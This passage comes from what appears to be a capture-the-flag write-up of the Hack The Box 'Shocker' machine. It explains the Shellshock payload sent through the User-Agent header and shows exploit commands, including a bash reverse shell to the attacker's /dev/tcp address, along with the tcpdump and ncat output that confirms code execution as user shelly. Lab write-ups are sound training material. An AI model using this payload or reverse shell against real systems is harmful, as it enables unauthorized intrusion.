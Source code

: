 The exploit code is pretty straight forward: it sends an HTTP request to the web server and injects the shellshock payload `() { :;}; [YOUR SHELL COMMAND]`
via the `User-Agent` header so that it will be processed by the web server.

In Apache `mod_cgi`, HTTP headers set as environment variables. This is where the shellshock
bug comes into play. When setting an environment variable in bash like the following: `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`, if your version
of bash is vulnerable to the shellshock bug, then the command `echo this is a test` will be executed as soon as the environment variable is set.

We can run the exploit to verify remote code execution with a blind ping towards my kali machine (10.10.14.33):

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "ping -c 1 10.10.14.33"
```

The ping listener on my kali machine revealed that 10.10.10.56 was able to ping it:

```bash
sudo tcpdump -i tun0 icmp
```

```none
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:05:20.031187 IP 10.10.10.56 > 10.10.14.33: ICMP echo request, id 1600, seq 1, length 64
18:05:20.031212 IP 10.10.14.33 > 10.10.10.56: ICMP echo reply, id 1600, seq 1, length 64
```

With the following command, we can get Apache to execute a bash reverse shell which will connect back to the netcat listener on my kali machine on port 2001:

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "bash -i >& /dev/tcp/10.10.14.33/2001 0>&1"
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.56.
Ncat: Connection from 10.10.10.56:47634.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

After [upgrading this reverse netcat shell to a pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2),
we can see that we are now executing code as the `shelly` user:

```none
shelly@Shocker:/usr/lib/cgi-bin$ id                                 
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Navigating to the `/home/shelly` directory, we can find the user flag:
